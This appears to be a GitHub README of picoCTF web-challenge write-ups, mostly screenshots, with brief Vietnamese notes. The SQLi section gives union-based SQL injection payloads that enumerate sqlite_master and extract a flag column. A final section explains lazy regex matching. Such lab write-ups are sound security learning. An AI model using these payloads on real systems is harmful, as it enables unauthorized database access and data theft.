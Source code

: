 # Pico

# 3v@l

![Screenshot 2025-05-06 145459](https://github.com/user-attachments/assets/7341be37-c7dd-452b-9bd5-c16d7c1f9255)

![Screenshot 2025-05-06 145355](https://github.com/user-attachments/assets/c7c3347d-3de3-472a-8d19-29883e1888e6)


# Trickster

![Screenshot 2025-05-06 155332](https://github.com/user-attachments/assets/b1b381bd-837e-408d-be81-cd3efdeac7fe)

![Screenshot 2025-05-06 155403](https://github.com/user-attachments/assets/6f13e065-7c1f-4f66-ab63-f8b5fc0fa6da)

![Screenshot 2025-05-06 155256](https://github.com/user-attachments/assets/ac5c313c-f361-458a-8539-4f0531317528)

![Screenshot 2025-05-06 155535](https://github.com/user-attachments/assets/cf092a89-0610-4e25-b710-7f2a8bd808de)

![Screenshot 2025-05-06 155628](https://github.com/user-attachments/assets/7bc6fb7c-7383-4ff6-a2ee-710ed70c4044)

![Screenshot 2025-05-06 155652](https://github.com/user-attachments/assets/51c486c3-f0db-4f08-b895-2663c972f65a)

![Screenshot 2025-05-06 160930](https://github.com/user-attachments/assets/5728cb41-4208-4af7-8109-5a9f1a6f889b)


# No Sql Injection
![Screenshot 2025-05-06 164913](https://github.com/user-attachments/assets/4b93f124-856c-4681-9027-c002a5ca2cfd)
Base64


# SOAP
![image](https://github.com/user-attachments/assets/66b72268-993f-4abe-a155-b48ce205c653)

![image](https://github.com/user-attachments/assets/e85f7fff-fa60-434e-bf56-02d3efab8184)


# SQLI

![image](https://github.com/user-attachments/assets/85cd66b8-317f-450f-8e67-07690551feda)

Lấy các bảng bằng payload như sau
>a' union select 1,name,3 from sqlite_master where type='table'-- -

![image](https://github.com/user-attachments/assets/f0cc536a-7494-4c2b-99e5-4c918f7ac6ef)

Kiểm tra bảng more_table

>a' union select 1,sql,3 from sqlite_master where name='more_table'-- -

KIểm tra cột flag trong bảng more_table

>a' union select flag,2,3 from more_table-- -

![image](https://github.com/user-attachments/assets/90e55f04-5245-4a7c-a5bf-c5ca3ee1a075)

#MatchTheRegex

![image](https://github.com/user-attachments/assets/c7b34f81-2f2c-437a-b108-c16e5f416f6b)
.*? bắt tất cả các kí tự bất kỳ, số lượng ít nhất cả thể, nghĩa là chỉ lấy } đầu tiên bắt gặp

Nếu không có ? sau * thì nó sẽ khớp tới } cuối cùng trong chuỗi lớn

{ } là kí tự đặt biệt trong regular nên cần có dấu \ đứng trước







